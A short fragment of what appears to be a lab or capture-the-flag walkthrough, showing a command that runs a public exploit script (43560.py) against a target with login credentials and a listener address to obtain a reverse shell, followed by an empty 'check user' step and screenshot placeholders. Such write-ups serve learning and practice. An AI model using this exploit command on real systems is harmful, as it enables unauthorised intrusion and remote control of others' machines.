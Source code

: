 ![](./IMG/15.png)
- Execut exploit code 
```
python3 43560.py --rhost 10.129.228.135 --lhost 10.10.17.145 --lport 1336 --username rohit --password pfsense
```

![](./IMG/16.png)
- Reverse shell 

![](./IMG/17.png)
- Check user 
```
```